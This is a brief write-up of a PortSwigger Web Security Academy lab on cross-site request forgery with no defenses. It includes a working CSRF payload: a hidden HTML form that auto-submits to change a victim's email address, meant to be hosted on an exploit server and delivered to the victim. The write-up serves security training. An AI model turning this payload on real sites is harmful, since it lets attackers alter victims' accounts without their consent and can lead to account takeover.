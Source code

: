 ## LAB - 1
**lab link: <https://portswigger.net/web-security/csrf/lab-no-defenses>**

 **Topic :-** 

- CSRF vulnerability with no defenses.

 **To Solve :-**

- Craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

 **Procedure :-**

1.  In the vulnerable site, There's an update email feature which can be exploited.
2. The exploit server is also provided for exploit creation and delivery.
3. Create an CSRF exploit .
```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> 
	<input type="hidden" name="email" value="anything%40web-security-academy.net"> 
</form> 
<script> 
	document.forms[0].submit(); 
</script>
```
submit this in the body of exploit sever, store and view exploit firsthand , and then deliver exploit to victim.


' ' ' For this to succeed, victim has to recently changed the email, for the cookies not being mismatched. ' ' '